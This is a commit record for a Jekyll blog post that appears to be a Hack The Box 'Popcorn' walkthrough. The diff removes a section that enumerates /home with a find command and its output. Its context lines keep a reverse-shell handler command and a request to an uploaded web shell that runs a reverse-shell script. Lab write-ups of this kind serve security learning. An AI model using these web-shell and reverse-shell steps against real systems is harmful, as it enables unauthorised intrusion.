

Before and after one commit to ppouhack/ppouhack.github.io, a Jekyll site: the page built from _posts/Etc/2019-05-12-hack the box intro.md, in a window 1280 px wide and 1400 px high, scrolled down 3902 px. Shown: the top 1392 px of the window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; after the commit the page ends 4670 px from its top, so only the background shows below that.

Commit message:
2019-05-25-commit-2

````diff
--- a/_posts/Etc/2019-05-12-hack the box intro.md
+++ b/_posts/Etc/2019-05-12-hack the box intro.md
@@ -177,27 +177,3 @@ python tcp_pty_shell_handler.py -b 192.168.87.132:31337
 ```
 GET /shell.php?shin=python /var/www/html/uploads/.rev.py HTTP/1.1
 ```
-
-## username 확인
----
-[http://man7.org/linux/man-pages/man1/find.1.html](http://man7.org/linux/man-pages/man1/find.1.html)
-
-```bash
-www-data@popcorn:/var/www/torrent/upload$find /home -printf "%f\t%p\t%u\t%g\t%m\n" 2>/dev/null| column -t
-```
-
-|filename|path|user|group|file permission(m)|
-|------------|-------------|-------------|-------------|-------------|
-|home                       | /home                                     |root  |  root   | 755|
-|george                     | /home/george                              |george|  george | 755|
-|.bash_logout               | /home/george/.bash_logout                 |george|  george | 644|
-|.bashrc                    | /home/george/.bashrc                      |george|  george | 644|
-|torrenthoster.zip          | /home/george/torrenthoster.zip            |george|  george | 644|
-|.cache                     | /home/george/.cache                       |george|  george | 755|
-|motd.legal-displayed       | /home/george/.cache/motd.legal-displayed  |george|  george | 644|
-|.sudo_as_admin_successful  | /home/george/.sudo_as_admin_successful    |george|  george | 644|
-|user.txt                   | /home/george/user.txt                     |george|  george | 644|
-|.nano_history              | /home/george/.nano_history                |root  |  root   | 600|
-|.mysql_history             | /home/george/.mysql_history               |root  |  root   | 600|
-|.bash_history              | /home/george/.bash_history                |root  |  root   | 600|
-|.profile                   | /home/george/.profile                     |george|  george | 644|
````
